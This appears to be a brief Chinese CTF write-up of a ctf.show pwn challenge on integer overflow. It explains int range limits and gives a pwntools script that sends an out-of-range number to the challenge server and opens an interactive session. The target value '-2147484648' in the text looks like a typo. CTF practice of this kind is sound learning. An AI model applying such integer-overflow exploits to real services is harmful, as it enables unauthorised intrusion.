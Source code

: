 # 挑战简介
先学点东西吧   

# 思路
整数安全，由整数可以联想到很多东西，比如int类型   

而我们都知道，整数是有一个范围的，比如int就是**-2147483648~2147483647**  
超过这个范围，或多或少会出现一些错误  

此题从了解入手，输入范围即可  

需求v4等于-2147484648,v5等于2147483647  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28157)

elf = ELF('D:\edge 下载\pwn')

payload = b'2147483648 2147483647'

io.sendline(payload)

io.interactive()
```
